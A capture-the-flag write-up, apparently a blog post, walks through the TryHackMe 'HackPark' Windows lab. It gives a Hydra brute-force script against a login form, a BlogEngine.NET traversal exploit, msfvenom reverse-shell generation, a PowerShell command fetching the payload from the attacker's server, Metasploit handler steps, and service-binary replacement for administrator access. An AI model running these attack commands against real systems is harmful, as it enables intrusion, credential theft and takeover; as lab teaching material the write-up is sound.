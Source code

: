 ```yaml
---
layout: post
title: HackPark [TryHackMe]
description: 
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
icon: shield-exclamation
---
```


Includes:
  - Windows
  - Hydra 
    - brute forcing credentials
  - Web application exploits
    - File inclusion
    - Directory traversal
  - WinPEAS
  - Metasploit
    - Stabilizing shells
  - Privilege Escalation

We can browse to the server via the internet to find a blog called `BlogEngine`. From here we can find a login page & can use hydra to try and exploit this.

#### Hydra

Try to login using random credentials & capture the body of the post request and note and changes on the page that would indicate a failed login.

Using this information we can create a quick bash script to run a bruteforce hydra attack against the web form - using the post body as `$form` and replacing the username and password with `^USER^` & `^PASS^` for hydra to replace these with the values we give it to run through. And use 'Login failed' as our failure condition.

```bash
#!/bin/bash

form="__VIEWSTATE=<redacted-for-clarity>&__EVENTVALIDATION=<redacted-for-clarity>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"

hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt \
10.10.186.90 http-post-form \
"/Account/login.aspx?ReturnURL=/admin/:$form:F=Login failed"
```

After about 30s we find the password and can now login.

#### Exploiting `BlogEngine`

Using `searchsploit` to find exploits:
```bash
$> searchsploit blogengine

BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
```

Mirror the exploit file:
```
$> searchsploit -m aspx/webapps/46353.cs
```

This file has a detailed overview at the top with how to go about using the exploit to gain remote access. The key details are:
- File must be uploaded as PostView.ascx
- Change the address and port in the script to the lhost and lport
- Upload via '/admin/app/editor/editpost.cshtml'
- Navigate to '/?theme=../../App_Data/files' to run the file

Running the file will give a reverse shell to our listener.

#### Enumerating

The shell we have is quite unstable so I want to stabilize it by creating a meterpreter shell via metasploit.

Craft our reverse shell using `msfvenom`:
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Using our reverse shell we can grab the file from our server (using `python3 -m http.server`):
```powershell
cmd> powershell.exe -c "wget 'http://<ip>:8000/msfvenom_reverse_shell.exe' -OutFile 'C:\Users\Public\msfvenom_reverse_shell.exe'"
```

Create a listener on metasploit:
```bash
msf6> use exploit/multi/handler 
msf6> set payload windows/x64/shell/reverse_tcp
msf6> set lhost <ip>
msf6> set lport <port>
msf6> exploit
```

And the we can run our reverse shell:
```cmd
cmd> C:\Users\Public\msfvenom_reverse_shell.exe
```
& background the session `ctrl+z`

Upgrading to meterpreter:
```bash
msf6> use post/multi/manage/shell_to_meterpreter
msf6> sessions -l
msf6> set session <reverse-shell-session-id>
msf6> set lhost 10.9.7.128
msf6> set lport 4433
msf6> exploit
msf6> session -i <meterpreter-session-id>

meterpreter>
```
* I did notice the meterpreter/PS shell is still slightly unstable and likes to die from time to time. Keeping the original session around as a backup was handy.

Uploading and running `winPEAS`:
```
meterpreter> upload winPEASx86.exe
meterpreter> load powershell
meterpreter> powershell_shell

PS> .\winPEASx86.exe > winpeas.txt
PS> exit
PS> meterpreter > download winpeas.txt
```

Read/search the results:
```bash
more winpeas.txt
cat winpeas.txt | grep -i "<search>"
```
`more` is nice for this as it will use the shell syntax highlighting/colours, making it easier to read. The file is often extremely long and hard to read using `cat` or similar.  

This highlights a possibly vulnerable service:
```
=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================
```

It also finds some AutoLogon credentials:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

#### Privilege escalation

The hackpark room wants us to exploit the service, so I will ignore the AutoLogon credentials.

Looking through the logs in `C:\Program Files (x86)\SystemScheduler` we can see its calling `Message.exe` as administrator. We can use our `msfvenom_reverse_shell.exe` we created earlier to gain a more stable reverse shell to replace `Message.exe`, and on the next scheduler cycle it will be run as an `Administrator`. 

Restart the listener we had earlier & wait for the next cycle (seems to be once every 1-2 minutes). This will give us a reverse shell as the `Administrator` account. From here we can gather the flags on both desktops and we've already ran `winPEAS` and gathered the other required information. 
